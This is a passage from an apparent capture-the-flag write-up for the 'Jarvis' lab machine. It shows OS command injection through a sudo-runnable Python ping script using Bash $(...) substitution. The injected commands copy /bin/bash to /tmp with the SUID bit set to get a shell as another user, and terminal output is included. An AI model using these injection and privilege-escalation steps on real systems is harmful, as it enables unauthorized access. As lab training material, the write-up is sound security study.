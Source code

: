 In here, we can see that our input will be parsed to `os.system('ping <command>')`. However, it'll filter the `forbidden` characters first, if the input contains a forbidden character, it'll just exit the program.

With that said, it's still vulnerable to **OS command injection**!

**In Bash, we can use `$(<command>)` to run arbitrary commands!**
```
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
<do -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(id)
ping: groups=1000(pepper): Temporary failure in name resolution
```

**Nice! That being said, we can escalate our privilege from `www-data` to `pepper`!**
```shell
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
[...]
Enter an IP: $(cp /bin/bash /tmp/pepper_bash)
[...]
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
[...]
Enter an IP: $(chmod +s /tmp/pepper_bash)
[...]
```

What this does is to copy `/bin/bash` to `/tmp/pepper_bash`, and add SUID sticky bit to it, so that we can spawn a Bash shell as user `pepper`.

```shell
www-data@jarvis:/var/www/html$ ls -lah /tmp/pepper_bash
-rwsr-sr-x 1 pepper pepper 1.1M Jul 28 08:53 /tmp/pepper_bash
www-data@jarvis:/var/www/html$ /tmp/pepper_bash -p
whoami; hostname; id;ip a
pepper
jarvis
uid=33(www-data) gid=33(www-data) euid=1000(pepper) egid=1000(pepper) groups=1000(pepper),33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:71:d5 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.143/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:71d5/64 scope link 
       valid_lft forever preferred_lft forever
```
